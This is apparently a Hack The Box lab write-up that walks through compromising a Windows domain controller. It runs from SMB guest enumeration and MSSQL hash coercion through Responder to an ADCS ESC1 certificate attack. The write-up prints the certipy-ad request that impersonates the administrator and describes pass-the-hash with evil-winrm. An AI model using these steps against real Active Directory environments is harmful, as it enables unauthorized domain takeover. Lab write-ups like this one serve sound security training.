This box is rated medium difficulty on HTB. It involves us finding msSQL credentials inside of a PDF on an SMB share, which allows us to logon as a service account. Then, we enumerate the system to get a user's credentials by parsing error logs. Finally, abusing a misconfiguration in an ADCS template allows us to impersonate administrator  to get a TGT, extract the hash, and use it to WinRM onto the box.

## Scanning & Enumeration
I start with an Nmap scan against the given IP to find any and all running services on the host. Repeating the same process for UDP yields no results.

```
$ sudo nmap -p- -sCV 10.129.228.253 -oN fullscan-tcp

Nmap scan report for 10.129.228.253
Host is up (0.18s latency).
Not shown: 70 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-24 16:28:40Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-24T16:30:13+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
|_SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
1433/tcp  open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.228.253:1433: 
|     Target_Name: sequel
|     NetBIOS_Domain_Name: sequel
|     NetBIOS_Computer_Name: DC
|     DNS_Domain_Name: sequel.htb
|     DNS_Computer_Name: dc.sequel.htb
|     DNS_Tree_Name: sequel.htb
|_    Product_Version: 10.0.17763
|_ssl-date: 2026-01-24T16:30:15+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-01-24T16:21:13
| Not valid after:  2056-01-24T16:21:13
| MD5:   a00e:16a6:ce76:b46d:fdd6:71b9:a412:aae9
|_SHA-1: f059:15b3:acc7:732b:fad2:516d:2d2a:a60b:9713:1985
| ms-sql-info: 
|   10.129.228.253:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-24T16:30:15+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
|_SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: sequel.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2026-01-24T16:30:13+00:00; +8h00m00s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.sequel.htb, DNS:sequel.htb, DNS:sequel
| Issuer: commonName=sequel-DC-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-01-18T23:03:57
| Not valid after:  2074-01-05T23:03:57
| MD5:   ee4c:c647:ebb2:c23e:f472:1d70:2880:9d82
|_SHA-1: d88d:12ae:8a50:fcf1:2242:909e:3dd7:5cff:92d1:a480
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49690/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
49721/tcp open  msrpc         Microsoft Windows RPC
49742/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 7h59m59s, deviation: 0s, median: 7h59m59s
| smb2-time: 
|   date: 2026-01-24T16:29:31
|_  start_date: N/A

NSE: Script Post-scanning.
Initiating NSE at 02:30
Completed NSE at 02:30, 0.00s elapsed
Initiating NSE at 02:30
Completed NSE at 02:30, 0.00s elapsed
Initiating NSE at 02:30
Completed NSE at 02:30, 0.00s elapsed
Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 115.72 seconds
```

There are 18 ports open and it looks like this machine is Windows with Active Directory components. I'll be focusing on SMB, DNS, msSQL, and maybe kerberos/ldap to authenticate.

LDAP is leaking the FQDN of `dc.sequel.htb` and other domains, so i'll add those to my /etc/hosts file. There are no web servers active so i'm going to begin enumerating SMB as it is the quickest.



Guest authentication is enabled for SMB and has a Public share that we have read permissions for. Inside is a `.pdf` containing information on how to access the SQL database with a `PublicUser` account. It also has a link to an employees email which discloses their username structure of `firstname.lastname`.



These credentials work to authenticate on the msSQL server using netexec. It also has a module for coercing the server to authenticate to our listener, allowing for us to capture a user's NTLM hash. Make sure to use `--local-auth` here as they aren't domain credentials.

3

Also set up an SMB server so we can grab the hash, here I use sudo responder -I tun0 . 



We get the hash for a `sql_svc` account and trying to crack it works to give us the plaintext version.



I confirm this works to authenticate using the `sql_svc` user on msSQL and start enumerating the database.



## Initial Foothold
We could get a shell on the box a few ways, but the easiest is to check if our account has access to WinRM and use a tool to exploit that. I check who has access to remote management onto the box and find one other user named `Ryan.Cooper`.



I use evil-winrm to get a shell as `sql_svc` and start looking for ways to pivot to `Ryan.Cooper`. While checking directories in the `C:\` drive I find a backup error log file for in the sqlserver folder. 



After downloading and parsing it, I find credentials for Ryan's account that we can use to evil-winrm on the box as well. Seems like he accidentally supplied his password as the username after a failed login, whoopsies.



We can grab the user flag inside his Desktop folder and begin privesc to Administrator. A bit of enumeration later yielded nothing, so I used netexec again to enumerate everything.

## Privilege Escalation
This shows that ADCS is running on the box, so I use `certipy-ad` for enumerating misconfigurations on the certificate services.



Here's the output from it:

```
$ cat 20260124033009_Certipy.txt

Certificate Authorities
  0
    CA Name                             : sequel-DC-CA
    DNS Name                            : dc.sequel.htb
    Certificate Subject                 : CN=sequel-DC-CA, DC=sequel, DC=htb
    Certificate Serial Number           : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Certificate Validity Start          : 2022-11-18 20:58:46+00:00
    Certificate Validity End            : 2121-11-18 21:08:46+00:00
    Web Enrollment
      HTTP
        Enabled                         : False
      HTTPS
        Enabled                         : False
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Active Policy                       : CertificateAuthority_MicrosoftDefault.Policy
    Permissions
      Owner                             : SEQUEL.HTB\Administrators
      Access Rights
        ManageCa                        : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        ManageCertificates              : SEQUEL.HTB\Administrators
                                          SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Enroll                          : SEQUEL.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : UserAuthentication
    Display Name                        : UserAuthentication
    Certificate Authorities             : sequel-DC-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : IncludeSymmetricAlgorithms
                                          PublishToDs
    Private Key Flag                    : ExportableKey
    Extended Key Usage                  : Client Authentication
                                          Secure Email
                                          Encrypting File System
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Schema Version                      : 2
    Validity Period                     : 10 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Template Created                    : 2022-11-18T21:10:22+00:00
    Template Last Modified              : 2024-01-19T00:26:38+00:00
    Permissions
      Enrollment Permissions
        Enrollment Rights               : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : SEQUEL.HTB\Administrator
        Full Control Principals         : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Owner Principals          : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Dacl Principals           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Enterprise Admins
        Write Property Enroll           : SEQUEL.HTB\Domain Admins
                                          SEQUEL.HTB\Domain Users
                                          SEQUEL.HTB\Enterprise Admins
    [+] User Enrollable Principals      : SEQUEL.HTB\Domain Users
    [!] Vulnerabilities
      ESC1                              : Enrollee supplies subject and template allows client authentication.
```

From this output, I find that a certain template is vulnerable to a Supply in Request attack. Certificate templates help simplify administration of ADCS Certificate Authority's by providing a set of preconfigured rules that end up getting applied to incoming certificate requests. However, misconfigurations in certain templates can allow for privilege escalation by supplying input that the CA will sign.

In this attack, we will request a certificate and supply the Administrator's SAN to effectively impersonate them. I use `certipy-ad` again to forge a request doing so.

```
$ certipy-ad req \
-u 'Ryan.Cooper' -p '[REDACTED]' \
-dc-ip 10.129.228.253 -target 'dc.sequel.htb' \
-ca 'sequel-DC-CA' -template 'UserAuthentication' -upn 'administrator@sequel.htb'

Certipy v5.0.3 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[*] Request ID is 13
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@sequel.htb'
[*] Certificate has no object SID
[*] Try using -sid to set the object SID or see the wiki for more details
[*] Saving certificate and private key to 'administrator.pfx'
[*] Wrote certificate and private key to 'administrator.pfx'
```

- `-dc-ip` is the Domain Controller's IP address
- `-target` is the DC's fully qualified domain name
- `-ca` is the DC's certificate authority name (gathered from certipy)
- `-template` is set to 'UserAuthentication' (specifying we want to authenticate to the DC)
- `-upn` is the User Principle name (who we want to impersonate)

Then, we can authenticate to the DC and try to grab a Ticket-Granting-Ticket using the `.pfx` file.



An error gets thrown saying that the clock skew is too great. Since Kerberos is involved, we need to make sure they match correctly. Typically you could just run `sudo rdate -n MACHINE_IP` to match clocks with the target, but I had to temporarily disable my timesync as it kept resetting immediately after.

```
#Stopping my machine's timsyncd processes
$ sudo systemctl stop systemd-timesyncd
$ sudo systemctl disable systemd-timesyncd
$ sudo systemctl stop chronyd 2>/dev/null
$ sudo systemctl disable chronyd 2>/dev/null

#Set Clock skew to match the DC's
$ sudo rdate -n MACHINE_IP
```

Then run it again to get a hash as administrator. Finally, we can use this to perform a pass-the-hash attack using evil-winrm to authenticate and grab a shell on the system.



Grabbing the final flag under C:\Users\Administrator\Desktop will complete the challenge. 

This box was pretty fun, because instead of the typical attack vectors of just relaying SMB or brute forcing/Kerberoasting, we abused misconfigured ADCS templates which is a nice change of pace. I hope this was helpful to anyone following along or stuck and happy hacking!
